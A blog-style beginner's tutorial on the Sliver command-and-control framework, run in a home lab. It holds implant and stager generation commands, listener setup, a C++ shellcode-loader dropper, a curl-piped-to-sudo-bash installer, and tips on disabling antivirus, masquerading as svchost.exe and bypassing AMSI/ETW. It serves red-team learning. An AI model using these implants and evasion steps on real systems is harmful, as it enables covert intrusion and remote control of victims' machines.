 ```yaml
---
authors:
- an00b
date: 2022-09-27 12:00:00
description: Command and control your friends (or your enemies) >:)
image: /public/static/frontmatter/sliver.jpg
tags:
- red-team
- command-and-control
- c2
- sliver
- golang
- bishop-fox
title: Writing a Beginner's Guide to Sliver Because the Devs Won't
---
```

<sup>Credit to [Aleksi Briclot](https://aleksi.artstation.com/projects/okV4) for the frontmatter art.</sup>

## Intro
My hands have definitely been a little full lately, but since I got a new laptop recently, I've finally been able to dig a little deeper into some of the red team things I've been meaning to for a while (read as: I can spawn Windows VMs easily). One of the things I've been meaning to figure out recently is my preferred command and control framework, [Sliver](https://github.com/BishopFox/sliver).

There are a bunch of things that I really like about it, including the frequent updates/developement, the amount of features, and the overall flexibility as everything is in Golang. The biggest issue I have with it is the rather limited documentation. The [beginner's guide](https://github.com/BishopFox/sliver/wiki/Beginner's-Guide) has been in TODO ~~since January~~ forever, and I still get very confused with how certain things like staging or pivoting work. I don't fully blame BishopFox for this; I'm also in the process of getting more comfortable with red team concepts in general, but I do think things could be slightly more descriptive.

This guide is meant to serve as a high-level overview of the basic features one would need to know to effectively use the Sliver C2 in a lab environment where OPSEC doesn't really matter. Before that, we'll briefly touch on what C2 actually is, and end up concluding with looking at it from the flip-side and how to detect this.



## Beginning Phase: What's a C2?
### Intro to C2
I first heard about "command and control infrastructure" from participating in Cyber 9/12, a cyber-policy event, where they never really explained it and I just thought it was some eldrich magick that made hacking possible. Turns out, it's a lot simpler than that.

The motivation for a **command and control framework** (aka C2 Framework) is simple. When an advesary attacks a large network of hundreds or possibly thousands of devices, it is simply infeasible to try and manage 10, 50, or more different shell sessions on compromised hosts. The idea behind C2 is to manage all of those different sessions and provide additional post-exploitation features to make the quality of life for a red teamer better. If you've ever used the [Metasploit Framework](https://github.com/rapid7/metasploit-framework), you've technically used a C2 before! It features custom payload generation, various listeners, session management, and additional post exploitation commands, but you probably don't need to use many of these things if you only use it to run quick exploits.

Here are some well known command and control frameworks (aside from Sliver):
- [Empire](https://github.com/BC-SECURITY/Empire) - A previously abandoned, open-source C2 brought back to life by BC-Security, heavily based around PowerShell
- [Mythic](https://github.com/its-a-feature/Mythic) - An open-source C2 framework heavily focused around collaboration, and allows for individuals to create their own implants in whatever language they choose
- [Cobalt Strike](https://www.cobaltstrike.com/) - A closed-source and infamous C2 framework developed by HelpSystems that is well-known for being a goto for real-world attackers (it's just that good)
- [Brute Ratel](https://bruteratel.com/) - A closed-source "C4" (it's just marketing) by Chetan Nayak or Paranoid Ninja which has strong networking features

You can read up more about various command and control frameworks in the [C2 Matrix](https://www.thec2matrix.com/), a website that catalogs all of the major C2s, open and closed source, out there right now.

### Components
Aside from the C2 server itself, there are two core components you'll see in almost any C2:
- **Listeners**. Like when you run `nc -lvnp 1337`, listeners are just applications running on the server that are waiting for a connection on a specific port or protocol. You'll likely hear about HTTP(S) and DNS the most
- **Implants/Agents/Payloads/[Cool_Name]**. They go by different names depending on the framework, but these are the actual programs that you run on a target computer to get the remote connection back on your C2 server. They can come in many different forms, such as binaries, shellcode, PowerShell commands, or quite frankly just any type of code execution, but getting these programs to run are the key to taking advantage of the C2.

Most frameworks will also have some kind of staging options, post-exploitation modules, multi-user capabilities, etc., but the core pieces are the two mentioned above. It seems very simple in concept, which it is. The complexity comes in the age old question of "How do you want to do this?". Depending on the situation, you'll likely end up asking yourself questions like:
- What type of payload should I use?
- Can I get away with X without raising too much suspicion?
- How do I bypass this AV/EDR product?
- How do I make sure I don't burn through all of my prepared evasion techniques?

And this is where a lot of the creativity and complexity in command and control design/usage comes in, which won't really be covered here. Our goal today is just to understand the basics (and maybe a little bit more), which should be applicable for any other C2.

## Installation
There's a few ways to go about this. Since 99% of the framework is in Golang, you can really run this on any operating system that there's a [release](https://github.com/BishopFox/sliver/releases) for, and all you need is the client binary and the server binary. As implied earlier, C2 is an example of client-server architecture, meaning we have a central server to handle our requests, and multiple clients interacting with that server.

An in-depth discussion of good red-team architecture is beyond the scope of this blog (but [HuskyHacks](https://notes.huskyhacks.dev/blog/red-team-infrastructure-done-right) has spoken on the subject matter many times), so if you're like me and just using it for personal use, there's really not much beyond this. If you are running the C2 on a Linux box, you can use the below one-liner to automatically set it up as a service.
```bash
curl https://sliver.sh/install|sudo bash
```

Also, if you don't already have Metasploit and the MinGW compiler installed, you should do that. This should be as easy as installing the `mingw-w64` package on Debian-based Linux or MacOS.

When using Sliver (or any C2 quite frankly), you'll need to run the server in the background, and use the client to connect to it. If you use the Linux one-liner, this will already be set up for you as a service, so use the appropriate `service` or `systemctl` command to start and stop it. 

<img src="https://an00brektn.github.io/img/sliver/thumb-1920-643584.jpg" style="width:60%;height:60%;"></img>
<sup>Credit to [Aleksi Briclot](https://www.artstation.com/aleksi)</sup>

## Pre-Combat Main Phase: Basic Usage
### Generating Implants
Throughout this blog, I will be using a local setup with my Kali VM and a Windows VM on the same network, Sliver being used and installed on the Kali VM.

Suppose, in this fictional scenario, I am attacking this network and am trying to get my first implant down on this Windows host that I already have command execution on. To start, we first need to generate an implant.

I'll connect to my server by running `sliver`.
```shell
kali@transistor:~/Documents/sliver-test$ sliver
Connecting to localhost:31337 ...

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain recover
[*] Server v1.5.27 - 11949202b581b843160801a232dc61e1afa39cc1
[*] Welcome to the sliver shell, please type 'help' for options

sliver > 
```

You can prepend `help` to any command to list further options, and I *highly* encourage you to read up on all of the different options here. However, for the sake of simplicity, we will generate the simplest of implants, which will use the HTTP protocol for a callback.

> **Note:** Sliver (1.5+) has two types of implants, beacons and sessions. Beacons will check in with your server every now and then to see if you've told them to do something, and then executes and returns the results. An implant in session mode is a real-time session that is more like a reverse shell.
> Implants compiled for session mode cannot switch to being beacons, but you can have beacons open up interactive sessions if need be.

```shell
sliver > generate beacon --http 10.10.69.24 --save .

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:01:05
[*] Implant saved to /home/kali/Documents/sliver-test/DIFFICULT_DYNAMO.exe
```

From here, I can run an SMB server on my local machine using impacket to transfer it to the remote Windows machine.
```shell
kali@transistor:~/Documents/sliver-test$ smbserver.py kali . -smb2support -username anon -password anon
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

And on the Windows machine...
```powershell
PS C:\Users\sreisz\Desktop\the-lab\sliver-test> net use \\10.10.69.24\kali /USER:anon anon
The command completed successfully.

PS C:\Users\sreisz\Desktop\the-lab\sliver-test> copy \\10.10.69.24\kali\DIFFICULT_DYNAMO.exe .
copy : Operation did not complete successfully because the file contains a virus or potentially unwanted software.
At line:1 char:1
+ copy \\10.10.69.24\kali\DIFFICULT_DYNAMO.exe .
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-Item], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.CopyItemCommand
```

Yep. Sliver has only been getting popular by the day, and its signatures are in Microsoft Defender's database. An in-depth discussion of evasion techniques is outside the scope of this blog post, so we'll just disable antivirus for now and try again.

### Listeners
Once we've taken care of that, all we have to do is set up a listener on our client. In other C2 frameworks, such as [Covenant](https://github.com/cobbr/Covenant) and [Empire](https://github.com/BC-SECURITY/Empire), this is a little more involved, but here we can just run `http` in our shell to start it up. However, `http` is not the only listener, and it's not even the recommended one. Here's a brief description of what the other listeners are for.

- `http`/`https` - for communication over the HTTP(S) protocol, pretty standard across any C2
	- You can also use the `websites` command to stage a fake website on the listener port so it looks more legit if someone tries to look at your listener.
- `mtls` - communication using mutual-TLS, a protocol in which both the implant and the server present a certificate that the other must validate. If one certificate fails, the connection does not happen.
	- Note that Sliver does hardcode the TLS configuration so that's something to think about for OPSEC
- `wg` - communication using WireGuard, which essentially creates a lightweight VPN to communicate over. This is also a highly recommended option by the devs, but if you want to learn more about this, I think this [discussion](https://github.com/BishopFox/sliver/discussions/721) answers most questions
- `dns` - definitely one of the more finnicky options where you leverage a domain that you control to transmit data over. This is all UDP and I don't really recommend it for beginners.

Each of these have their own set of options and capabilities that the wiki/source code can explain much better than I ever could.

Since our beacon was only configured to have an `http` callback, we can run `http` in our shell and then execute the beacon on the remote Windows computer.
```shell
sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #1

[*] Beacon 32ca60f5 DIFFICULT_DYNAMO - 10.10.69.19:50006 (DESKTOP-1AGTDPB) - windows/amd64 - Sun, 25 Sep 2022 00:33:36 EDT
```

![slifer](https://an00brektn.github.io/img/sliver/Slifer_the_Sky_Dragon.jpg)
<sup>Oh wait you said "Sliver"? Ah, wrong game, my bad.</sup>

## Combat Phase: Interacting with the Target
### Beacons
Now that we have a beacon on the target, what can we do with it? We can list the current beacons we have using the `beacons` command.

```shell
sliver > beacons 

 ID         Name               Tasks   Transport   Remote Address      Hostname          Username   Operating System   Locale   Last Check-In                            Next Check-In                         
========== ================== ======= =========== =================== ================= ========== ================== ======== ======================================== =======================================
 32ca60f5   DIFFICULT_DYNAMO   0/0     http(s)     10.10.69.19:50006   DESKTOP-1AGTDPB   sreisz     windows/amd64      en-US    Sun Sep 25 00:35:48 EDT 2022 (49s ago)   Sun Sep 25 00:36:56 EDT 2022 (in 19s) 
```

Recall that **beacons** are different from **sessions** in that they will periodically check in about every minute or so by default. From an OPSEC perspective, this is better because it doesn't look like a reverse shell, which is a continuous connection. I also say that a beacon checks in every minute *or so* because of **jitter**. Jitter is essentially making the check-ins more irregular, making it so that the beacon is not checking in at exactly every 60 seconds, because that would also be suspicious.

Tangent aside, we can interact with our beacon with the `use` command, followed by the ID of the beacon, which we can use the Tab key for auto fill.

```shell
sliver > use 32ca60f5-7004-4cad-a433-55e34aeaff04

[*] Active beacon DIFFICULT_DYNAMO (32ca60f5-7004-4cad-a433-55e34aeaff04)
```

The `help` command here shows us **a lot** of commands we can use. We're still not in an actual shell (and if we were on a real engagement we might not ever want to enter a full shell), so we don't have access to every Windows command under the sun, but there's a lot already out there for us to do.

We can start with the most basic command: `ls`.
```shell
sliver (DIFFICULT_DYNAMO) > ls

[*] Tasked beacon DIFFICULT_DYNAMO (db8b4d25)
```

You'll notice we did not get a response immediately. This is because any commands we send are actually **tasks** that are put into a queue, and recieved everytime the beacon checks in. Just wait about a minute, and we see:

```shell
[+] DIFFICULT_DYNAMO completed task f8d51379

C:\Users\sreisz\Desktop\the-lab\sliver-test (3 items, 15.4 MiB)
===============================================================
-rw-rw-rw-  DIFFICULT_DYNAMO.exe  15.4 MiB  Sat Sep 24 21:31:53 -0700 2022
-rw-rw-rw-  password.txt          16 B      Sat Sep 24 21:47:45 -0700 2022
-rw-rw-rw-  secret.txt            37 B      Sat Sep 24 21:48:09 -0700 2022
```

If you ever forget what the result of a task was, for documentation or you just don't want to execute another command, you can use `tasks` to list the things you've done so far, and then `tasks fetch <id>` to fetch the output of a specific task.

```shell
sliver (DIFFICULT_DYNAMO) > tasks

 ID         State       Message Type   Created                         Sent                            Completed                     
========== =========== ============== =============================== =============================== ===============================
 f8d51379   completed   Ls             Sun, 25 Sep 2022 00:48:15 EDT   Sun, 25 Sep 2022 00:49:10 EDT   Sun, 25 Sep 2022 00:49:10 EDT 
 db8b4d25   completed   Ls             Sun, 25 Sep 2022 00:45:48 EDT   Sun, 25 Sep 2022 00:46:50 EDT   Sun, 25 Sep 2022 00:46:50 EDT 

sliver (DIFFICULT_DYNAMO) > tasks fetch f8

+------------------------------------------------------+
| Beacon Task   | f8d51379-b01c-4f05-8f77-8a07fcea14e3 |
+---------------+--------------------------------------+
| State         | ✅ Completed                         |
| Description   | LsReq                                |
| Created       | Sun, 25 Sep 2022 00:48:15 EDT        |
| Sent          | Sun, 25 Sep 2022 00:49:10 EDT        |
| Completed     | Sun, 25 Sep 2022 00:49:10 EDT        |
| Request Size  | 18 B                                 |
| Response Size | 180 B                                |
+------------------------------------------------------+

C:\Users\sreisz\Desktop\the-lab\sliver-test (3 items, 15.4 MiB)
===============================================================
-rw-rw-rw-  DIFFICULT_DYNAMO.exe  15.4 MiB  Sat Sep 24 21:31:53 -0700 2022
-rw-rw-rw-  password.txt          16 B      Sat Sep 24 21:47:45 -0700 2022
-rw-rw-rw-  secret.txt            37 B      Sat Sep 24 21:48:09 -0700 2022
```

A lot of the commands in a beacon might be familiar if you've ever used Meterpreter, so I won't explain every single possible thing you can do. However, differing from Meterpreter, there are a lot more commands to help simplify some of the things you might need to do as a red teamer.

```shell
Sliver - Windows:
=================
  backdoor          Infect a remote file with a sliver shellcode
  dllhijack         Plant a DLL for a hijack scenario
  execute-assembly  Loads and executes a .NET assembly in a child process (Windows Only)
  getprivs          Get current privileges (Windows only)
  getsystem         Spawns a new sliver session as the NT AUTHORITY\SYSTEM user (Windows Only)
  impersonate       Impersonate a logged in user.
  make-token        Create a new Logon Session with the specified credentials
  migrate           Migrate into a remote process
  psexec            Start a sliver service on a remote target
  registry          Windows registry operations
  rev2self          Revert to self: lose stolen Windows token
  runas             Run a new process in the context of the designated user (Windows Only)
  spawndll          Load and execute a Reflective DLL in a remote process
```

### Sessions
To be able to use some of the commands that require a session, we can use `interactive` to enter session mode.

```shell
sliver (DIFFICULT_DYNAMO) > interactive

[*] Using beacons active C2 endpoint: https://10.10.69.24
[*] Tasked beacon DIFFICULT_DYNAMO (80902df5)

[*] Session 4791259a DIFFICULT_DYNAMO - 10.10.69.19:50057 (DESKTOP-1AGTDPB) - windows/amd64 - Sun, 25 Sep 2022 00:59:52 EDT

sliver (DIFFICULT_DYNAMO) > use 4791259a-d94a-4aba-b2cb-c99c86543d2b

[*] Active session DIFFICULT_DYNAMO (4791259a-d94a-4aba-b2cb-c99c86543d2b)

sliver (DIFFICULT_DYNAMO) >  
```

You can't really see it here, but in the UI, the name of the implant is blue when it's in beacon mode, and red when it's in session mode. Not only do we now get quicker turnarounds on our tasks, because everything is happening immediately, but we can also use commands like `getsystem`, `portfwd`, or `shell` that require a constant connection. The big downside is that is the beacon process continuously shows up in Task Manager. Ideally, you rename the executable file to `svchost.exe` or `explorer.exe` or something less suspicious, but the problem still remains.

![Pasted%20image%2020220925003324.png](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220925003324.png)

Other than that, they're really not that much different than beacons. From a workflow perspective, you'll almost always default to beacons, then pull out the session if necessary. After all you can only go from beacon to session, not vice versa.

Speaking of which, we can also kill a session to make sure we clean up our steps.
```shell
sliver (DIFFICULT_DYNAMO) > sessions -K

[!] Lost session 4791259a DIFFICULT_DYNAMO - 10.10.69.19:50057 (DESKTOP-1AGTDPB) - windows/amd64 - Sun, 25 Sep 2022 01:51:13 EDT
[*] Killed DIFFICULT_DYNAMO (4791259a-d94a-4aba-b2cb-c99c86543d2b)
```

The lowercase `-k` flag can be used to specify a specific session, I just wanted to get rid of any and all of them.

### Profiles
Once you get deep into the weeds of it, typing out entire generation commands can get quite cumbersome and tedious. To make it easier, you can save your favorite configurations to a profile. Suppose I have a regular setup I like using to generate my beacon shellcode. I can use the below command to save it for later

```shell
sliver (DIFFICULT_DYNAMO) > profiles new beacon --arch amd64 --os windows --mtls 10.10.10.10:443 -f shellcode --evasion --timeout 300 --seconds 5 --jitter 1 funny_bytes

[*] Saved new implant profile (beacon) funny_bytes
```

Then, to generate this beacon shellcode, I can run a `profiles generate`
```shell
sliver (DIFFICULT_DYNAMO) > profiles generate --save . funny_bytes

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:00:55
? Encode shellcode with shikata ga nai? Yes
[*] Encoding shellcode with shikata ga nai ... success!
[*] Implant saved to /home/kali/Documents/sliver-test/HUNGRY_RUNAWAY.bin
```

You can also generate session implants in the same way, just omit the `beacon` part. We can also view what profiles we have saved, and what implants we have generated.
```shell
sliver (DIFFICULT_DYNAMO) > profiles

 Profile Name   Implant Type   Platform        Command & Control            Debug   Format      Obfuscation   Limitations 
============== ============== =============== ============================ ======= =========== ============= =============
 funny_bytes    beacon         windows/amd64   [1] mtls://10.10.10.10:443   false   SHELLCODE   enabled                   

sliver (DIFFICULT_DYNAMO) > implants

 Name               Implant Type   OS/Arch             Format   Command & Control            Debug 
================== ============== =============== ============ ============================ =======
 DIFFICULT_DYNAMO   beacon         windows/amd64   EXECUTABLE   [1] https://10.10.69.24      false 
 HUNGRY_RUNAWAY     beacon         windows/amd64    SHELLCODE   [1] mtls://10.10.10.10:443   false 
 PRACTICAL_JELLY    session        windows/amd64   EXECUTABLE   [1] https://192.168.3.6      false 
```

If at any point you accidentally delete an implant or just need to get an implant back, the `regenerate` command will create a new one instantly. 

```shell
sliver (DIFFICULT_DYNAMO) > regenerate DIFFICULT_DYNAMO

[*] Implant binary saved to: /home/kali/Documents/sliver-test/DIFFICULT_DYNAMO.exe
```

<img src="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/07/golang-hacker.jpg" style="width:75%;height:75%;"></img>
<sup>Credit: [Unit 42](https://unit42.paloaltonetworks.com/the-gopher-in-the-room-analysis-of-golang-malware-in-the-wild/)</sup>

## Post-Combat Main Phase: Cool Things
Sliver has a lot to offer, and I'll cover more of these things in a part 2 to this post, but I thought I'd cover a few things that are not entirely Sliver specific.

### Staging
Sliver is written in Golang, a programming language that compiles statically by default. This is different from your typical C executable, which is usually linked to external libraries to import commands from. As such, you'll notice that Sliver's generated implants are very large by default. This is because of the use of Golang, which compiles statically, meaning that in addition to the program code, the entire standard library of functions (and any other imported libraries) will get baked into the compiled output. Such is the tradeoff for getting very easy cross-compilation.

```shell
kali@transistor:~/Documents/sliver-test$ ls -la
total 28856
drwxr-xr-x 2 kali kali     4096 Sep 25 01:47 .
drwxr-xr-x 9 kali kali     4096 Sep 22 20:35 ..
-rwx------ 1 kali kali 16140288 Sep 25 01:38 DIFFICULT_DYNAMO.exe
-rwx------ 1 kali kali 13394233 Sep 25 01:47 HUNGRY_RUNAWAY.bin
```

If you've ever used Metasploit, you should be familiar with the idea of a **staged** versus a **stageless** payload. A stageless payload is a single binary (or any payload) that contains all of the necessary data to connect back to you, and that's pretty much the end of the story. A staged payload, also commonly referred to as a "dropper", is a much smaller payload that, when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute. You may think that staged payloads are just strictly better than stageless payloads, and you're kind of right. But, certain situations call for different needs, and if you're interested in further reading about the topic, I recommend checking out [Spooky aka NaisuBanana's](https://blog.spookysec.net/stage-v-stageless-1/) blog about that (I totally don't have the same Jekyll theme as them).

Creating a staged payload, as shown in the docs, is a little confusing, so I'll walk through a different example slowly. Note that as of right now, the only stager format available is in shellcode, the other options they show you are just ways to use the shellcode, there are no oneliners like Covenant or Empire. With that out of the way, we start by creating a new profile for the implant we want to generate. 

> ~~After multiple hours of troubleshooting, I was unable to have the stage listener work with `https`, the more secure and responsible thing to be doing. Hopefully I remember to update this blog once I get a better answer as to how that works.~~
> **Update**: Turns out I actually stumbled onto a bug where the wrong `msfvenom` command was being run. You can see the [discussion](https://github.com/BishopFox/sliver/discussions/917) and the [patch](https://github.com/BishopFox/sliver/pull/918) for more information about what happened. <sub>if i was any faster that could have been a free pr smh</sub>

```shell
profiles new beacon --arch amd64 --os windows --mtls 10.10.69.24:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 funnier_bytes
```

Once we've created the profile, we start a listener for the initial callback. We specify the profile to tell the server that when you get a callback on this URL, the agent you should send a Sliver (i.e. agent) with the specified profile. We use the `--prepend-size` since we're going to be using the Metasploit/`msfvenom` stager, but if you write your own custom one, you shouldn't include that flag.
```shell
stage-listener --url http://10.10.69.24:8080 --profile funnier_bytes --prepend-size
```

We then start another listener to catch the stage 2 callback. 
```shell
mtls --lhost 10.10.69.24 --lport 443
```

And then we actually generate the stager with the correct parameters.
```shell
generate stager -r http --lhost 10.10.69.24 --lport 8080
```

> If you are having unexpected errors here like `rpc error: code = Unknown desc = exit status 2`, be sure to check the server logs first for troubleshooting. The current version of Sliver requires a fairly recent version of Metasploit, so versioning is something to consider.

We can see the size of this staged payload is remarkably smaller than the stageless binary.
```shell
kali@transistor:~/Documents/sliver-test$ ls -la
total 15796
drwxr-xr-x 2 kali kali     4096 Sep 28 00:13 .
drwxr-xr-x 9 kali kali     4096 Sep 22 20:35 ..
-rwx------ 1 kali kali      969 Sep 28 00:13 ALERT_FORUM
-rwx------ 1 kali kali 16140288 Sep 25 01:38 DIFFICULT_DYNAMO.exe
-rw-r--r-- 1 kali kali    20065 Sep 26 00:50 shellcrypt.py
```

Since I used shellcode, I'll place it into a simple C++ dropper. This is also a huge benefit of staged payloads, as they're much easier to work with when developing custom droppers and such. I'm using C++ because it's the language I first learned when doing malware development with [Sektor7](https://institute.sektor7.net/) (great courses by the way), but you're free to insert this into any programming language to your heart's content. I highly recommend checking out this repo by [chvancooten](https://github.com/chvancooten/maldev-for-dummies) for more info on developing your own loaders and droppers.

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// change this out for the shellcode you're using!
unsigned char payload[3] = {
	0x90, 0x90, 0xcc
};
unsigned int payload_len = sizeof(payload);

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// If VirtualProtect worked, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

We can compile this and also see the smaller binary size.
```shell
C:\Users\sreisz\Desktop\the-lab\sliver-test\staged>dir
 Volume in drive C has no label.
 Volume Serial Number is B6DD-3AE4

 Directory of C:\Users\sreisz\Desktop\the-lab\sliver-test\staged

09/26/2022  07:28 PM    <DIR>          .
09/26/2022  07:28 PM    <DIR>          ..
02/26/2020  10:04 PM               123 compile.bat
09/26/2022  07:32 PM             5,956 implant.cpp
09/26/2022  07:32 PM           129,024 implant.exe
09/26/2022  07:32 PM             4,188 implant.obj
				5 File(s)        140,228 bytes
				2 Dir(s)  34,745,667,584 bytes free 
```

Running the implant, we get a callback at our C2.
```shell
[*] Beacon 800878fa VOICELESS_SKULL - 10.10.69.19:49918 (DESKTOP-1AGTDPB) - windows/amd64 - Wed, 28 Sep 2022 00:16:36 EDT
```

We can see exactly what this looked like on the network using Wireshark. One of the first packets we should see is an HTTP request to some random looking URL, but probably has a `.woff` extension in it.
![asdf](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220927231922.png)

The binary data inside this request is actually the stage 2 payload right there in plain sight! Since our request was done using HTTP instead of HTTPS, anyone eavesdropping or logging this could also probably see this request happening. However, they won't be able to tell what communication is happening. After scrolling past a lot of repeated ACK packets, we see some TLS packets.

![asdf](https://an00brektn.github.io/img/sliver/Pasted%20image%2020220927232358.png)

As we have set up an MTLS listener, where both the client and server must verify each others' certificates, we have a cryptographic exchange where we do all of this verification, and if successful, all sequential packets will be encrypted and unreadable for anyone without the keys.

If you haven't already noticed, Sliver uses Metasploit to actually generate and handle the staged payloads. With this, we can not only just use Metasploit directly to create staged payloads, but we can also make custom droppers too, as noted in the [wiki](https://github.com/BishopFox/sliver/wiki/Stagers#custom-stagers), which gives us even more flexibility with how we approach payload design. Here, it's actually very important considering Metasploit is a tool that's been fingerprinted for who knows how long, and any usable AV/EDR will catch Metasploit shellcode fairly quickly. 

### Armory
Introduced in Sliver v1.5, the **armory** is Sliver's Alias and Extension package manager which allows you to install tools that other people outside of the core Sliver devs have made. We can see all of the different public packages available just by typing `armory`.

```shell
sliver > armory

[*] Fetching 1 armory index(es) ... done!
[*] Fetching package information ... done!
[...trim...]
```

Obviously, each package plays differently, but we can play around with one of the aliases like `sharpsecdump` as a demo. We can use `armory install <name>` to install a specific alias or extension.

```shell
sliver > armory install seatbelt

[*] Installing alias 'Seatbelt' (v0.0.3) ... done!
```

Once we've installed the alias, we can check the help information from an active session.
```shell
sliver (DIFFICULT_DYNAMO) > seatbelt -h
⚠️  If youre having issues passing arguments to the alias please read:
https://github.com/BishopFox/sliver/wiki/Aliases-&-Extensions#aliases-command-parsing

Usage:
======
  seatbelt [flags] [arguments...]

Args:
=====
  arguments  string list    arguments (default: [])

Flags:
======
  -M, --amsi-bypass                 Bypass AMSI on Windows (only supported when used with --in-process)
  -d, --app-domain        string    AppDomain name to create for .NET assembly. Generated randomly if not set.
  -a, --arch              string    Assembly target architecture: x86, x64, x84 (x86+x64) (default: x84)
  -c, --class             string    Optional class name (required for .NET DLL)
  -E, --etw-bypass                  Bypass ETW on Windows (only supported when used with --in-process)
  -h, --help                        display help
  -i, --in-process                  Run in the current sliver process
  -m, --method            string    Optional method (a method is required for a .NET DLL)
  -P, --ppid              uint      parent process ID to use when creating the hosting process (Windows only) (default: 0)
  -p, --process           string    Path to process to host the shared object
  -A, --process-arguments string    arguments to pass to the hosting process
  -r, --runtime           string    Runtime to use for running the assembly (only supported when used with --in-process)
  -s, --save                        Save output to disk
  -t, --timeout           int       command timeout in seconds (default: 60)
```

That warning is a pretty useful read, and I recommend checking it out. When using an alias, pass the Sliver-specific flags first, then use a `--`, and then proceed to submit any other flags specific to the alias.

```shell
sliver (DIFFICULT_DYNAMO) > seatbelt -group=system
error: invalid flag: -group
sliver (DIFFICULT_DYNAMO) > seatbelt -i -- -group=system

[*] seatbelt output:

Seatbelt v1.1.1

====== AMSIProviders ======

  GUID                           : {2781761E-28E0-4109-99FE-B9D127C57AFE}
  ProviderPath                   : "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2207.7-0\MpOav.dll"

====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe
[...trim...]
```

An alias, like `seatbelt`, is just an abstraction for using `sideload` or `execute-assembly` to run a program inside the current process, as opposed to spawning a new child process. Extensions are a little more complicated, as they are shared libraries that get loaded into the Sliver implant, and possibly have additional dependencies.

### BOF: Beacon Object Files
The term "**Beacon Object File**" (BOF) originated from a feature in the well-known [Cobalt Strike](https://www.cobaltstrike.com/) command and control framework. Quote TrustedSec:

> "BOFs allow users to execute code without following Cobalt Strike’s well-defined patterns. Typically, Cobalt Strike will always perform cross-process injection or start cmd.exe / powershell.exe to accomplish its more useful goals [...] When a technique is coded using a BOF, you gain the benefit of running code inside of beacon itself and without starting a child process. You also do not have the Indicators of Compromise (IoCs) associated with execute-assembly where you would start your spawn-to process and inject code into it." [Original Blog](https://www.trustedsec.com/blog/a-developers-introduction-to-beacon-object-files/)

